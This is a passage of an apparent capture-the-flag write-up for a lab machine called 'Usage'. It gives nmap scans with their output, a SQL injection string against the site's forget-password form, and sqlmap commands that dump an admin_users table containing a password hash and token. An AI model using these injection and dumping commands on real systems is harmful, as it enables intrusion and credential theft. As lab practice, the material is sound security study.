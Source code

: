 ## Reconnaissance
- Nmap enumeration :
	```bash
nmap 10.10.11.18
nmap -sV -sC -vv 10.10.11.18 #using this output unless other show otherwise
nmap -sU 10.10.11.18
nmap -sT -A --top-ports=60000 10.10.11.18 -oG top-port-sweep.txt 
```
	- Output:
		```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFfdLKVCM7tItpTAWFFy6gTlaOXOkNbeGIN9+NQMn89HkDBG3W3XDQDyM5JAYDlvDpngF58j/WrZkZw0rS6YqS0=
|   256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHr8ATPpxGtqlj8B7z2Lh7GrZVTSsLb6MkU3laICZlTk
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
	- Port 80 http
	- Running nginx
	- redirects to http://usage.htb
	- Linux OS and kernel (5.0)
- After editing /etc/hosts, we check website :
	- admin.usage.htb added as there is another link
	- we find the reset password link (http://usage.htb/forget-password) is injectable we passing:
		```bash
' or 1=1-- -
```
		- copy request in burp suite and pass sqlmap command on request
			```bash
sqlmap -r reset.req -p email --batch --risk=3 --level=5 --threads=10 # increase threads to increase speed, max 10
sqlmap -r reset.req -p email --batch --risk=3 --level=5 --dbs
sqlmap -r reset.req -p email --batch --risk=3 --level=5 -D usage_blog  --tables --threads=10
sqlmap -r reset.req -p email --batch --risk=3 --level=5 -D usage_blog -T admin_users --dump --threads=10
```
			- Output:
				```bash
[1 entry]
+----+---------------+--------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+--------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | !      | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2025-03-27 16:25:04 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+--------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
```
				- Name : Admnistrator
				- username : admin
```